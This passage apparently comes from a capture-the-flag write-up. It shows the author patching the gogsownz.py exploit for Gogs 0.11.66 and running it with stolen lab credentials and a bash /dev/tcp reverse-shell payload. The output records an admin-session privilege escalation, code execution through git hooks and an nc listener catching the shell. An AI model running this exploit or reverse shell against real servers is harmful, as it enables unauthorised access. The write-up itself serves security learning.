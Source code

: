 1) changed line 91 to `if len(cookies) < 1:` instead of `if len(cookies) !=
1:`

2) changed all instances of `self.username not in resp` to `self.username not
in resp.lower()`. That’s because `aogiritest` logs in as a valid username, but
“AogiriTest” shows up in the page. So the script will fail thinking the
username didn’t come back, when in fact, it did, just with camelcase.
Alternatively, I could just use the camelcase username to login.

Run it:

    
    
    root@kali:/opt/gogsownz# python3 gogsownz.py http://127.0.0.1:3000/ -v --creds 'aogiritest:test@aogiri123' --rce "bash -c 'bash -i >& /dev/tcp/172.18.0.200/9001 0>&1'" --cleanup --burp                                   
    [i] Starting Gogsownz on: http://127.0.0.1:3000
    [+] Loading Gogs homepage
    [i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916
    [i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.                                                                                                      
    [+] Performing login
    [+] Logged in successfully as aogiritest
    [+] Got UserID 2
    [+] Repository created successfully
    [i] Exploiting authenticated PrivEsc...
    [+] Uploading admin session as repository file
    [+] Uploaded successfully.
    [+] Committing the Admin session
    [+] Committed successfully
    [+] Removing Repo evidences
    [+] Repo removed successfully
    [i] Signed in as kaneki, is admin True
    [i] Current session cookie: 'acc4001337'
    [+] Got UserID 1
    [+] Repository created successfully
    [+] Setting Git hooks
    [+] Git hooks set successfully
    [+] Fetching last commit...
    [+] Got last commit
    [+] Triggering the RCE with a new commit
    [!] Can't commit on repo kaneki/gogstest
    

And shell connected back:

    
    
    root@kali# nc -lnvp 9001
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.101.
    Ncat: Connection from 10.10.10.101:40478.
    bash: cannot set terminal process group (31): Not a tty
    bash: no job control in this shell
    bash-4.4$ id
    id
    uid=1000(git) gid=1000(git) groups=1000(git)
    